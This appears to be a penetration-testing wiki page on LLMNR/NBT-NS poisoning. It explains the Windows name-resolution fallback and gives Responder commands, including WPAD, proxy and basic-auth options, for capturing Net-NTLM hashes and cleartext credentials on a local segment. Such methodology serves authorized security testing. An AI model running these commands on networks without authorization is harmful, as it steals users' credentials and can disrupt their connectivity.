

**LLMNR / NBT-NS poisoning** — LLMNR and NBT-NS (NetBIOS Name Service) are legacy name-resolution protocols Windows falls back to when DNS fails. An attacker on the local segment answers these broadcast/multicast requests, gets victims to authenticate to them, and captures Net-NTLM hashes.

## How it works

Name resolution order: DNS -> LLMNR -> NBT-NS. If DNS fails, the host asks the local network, and the attacker answers.



Example flow:
1. A client tries to reach a share on a server that no longer exists, e.g. `\\FOOBAR\share`.
2. DNS has no record for `FOOBAR`.
3. The client sends a multicast LLMNR request asking who `FOOBAR` is.
4. The attacker responds with its own IP.
5. The client connects to `smb://ATTACKER_IP`.
6. The attacker requests authentication and the client transparently authenticates over NTLM.

## Discovery

Capture traffic in Wireshark with the filter `llmnr or nbns`. If clients on the segment send these requests, they are likely vulnerable. You can also run Responder in analyze-only mode:

```bash

responder -A -I 'INTERFACE'

```

## Exploitation

Responder, basic usage:

```bash

responder -I 'INTERFACE'

```

If that is not enough to capture credentials, enable WPAD and proxy authentication:

```bash

# -F - Enable WPAD authentication
# -P - Enable Proxy authentication
responder -FP -I 'INTERFACE'

```

Under some circumstances you can capture cleartext credentials with `-b` (basic auth):

```bash

# -b - Enable basic authentication
responder -FPb -I 'INTERFACE'

```

See how to collect the captured hashes in [NTLM Credentials Gathering](NTLM%20Credentials%20Gathering.md).

## Caution

A basic Responder attack (LLMNR/NBT-NS poisoning) should not disrupt the local network.

**Warning:** Things can go wrong once you start messing with WPAD. Worst case, clients lose Internet access until they reboot once the fake WPAD server is configured.

**Warning:** Be careful with `-b` - it can pop an authentication prompt on the clients' desktops.

## References

- Responder - https://github.com/lgandx/Responder
- HackTricks - Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks - https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks
